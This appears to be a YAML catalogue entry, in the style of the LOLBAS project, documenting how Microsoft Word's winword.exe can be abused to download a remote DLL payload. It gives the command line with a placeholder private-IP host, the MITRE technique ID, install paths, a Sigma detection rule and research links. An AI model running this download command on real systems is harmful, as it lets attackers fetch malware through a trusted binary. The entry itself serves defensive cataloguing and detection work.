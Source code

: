 ```yaml
---
Name: Winword.exe
Description: Microsoft Office binary
Author: 'Reegun J (OCBC Bank)'
Created: 2019-07-19
Commands:
  - Command: winword.exe "http://192.168.1.10/TeamsAddinLoader.dll"
    Description: Downloads payload from remote server
    Usecase: It will download a remote payload and place it in the cache folder
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows
Full_Path:
  - Path: C:\Program Files\Microsoft Office\root\Office16\winword.exe
  - Path: C:\Program Files (x86)\Microsoft Office 16\ClientX86\Root\Office16\winword.exe
  - Path: C:\Program Files\Microsoft Office 16\ClientX64\Root\Office16\winword.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office16\winword.exe
  - Path: C:\Program Files\Microsoft Office\Office16\winword.exe
  - Path: C:\Program Files (x86)\Microsoft Office 15\ClientX86\Root\Office15\winword.exe
  - Path: C:\Program Files\Microsoft Office 15\ClientX64\Root\Office15\winword.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office15\winword.exe
  - Path: C:\Program Files\Microsoft Office\Office15\winword.exe
  - Path: C:\Program Files (x86)\Microsoft Office 14\ClientX86\Root\Office14\winword.exe
  - Path: C:\Program Files\Microsoft Office 14\ClientX64\Root\Office14\winword.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office14\winword.exe
  - Path: C:\Program Files\Microsoft Office\Office14\winword.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office12\winword.exe
  - Path: C:\Program Files\Microsoft Office\Office12\winword.exe
  - Path: C:\Program Files\Microsoft Office\Office12\winword.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/683b63f8184b93c9564c4310d10c571cbe367e1e/rules/windows/process_creation/proc_creation_win_office_arbitrary_cli_download.yml
  - IOC: Suspicious Office application Internet/network traffic
Resources:
  - Link: https://twitter.com/reegun21/status/1150032506504151040
  - Link: https://medium.com/@reegun/unsanitized-file-validation-leads-to-malicious-payload-download-via-office-binaries-202d02db7191
Acknowledgement:
  - Person: 'Reegun J (OCBC Bank)'
    Handle: '@reegun21'
---
```


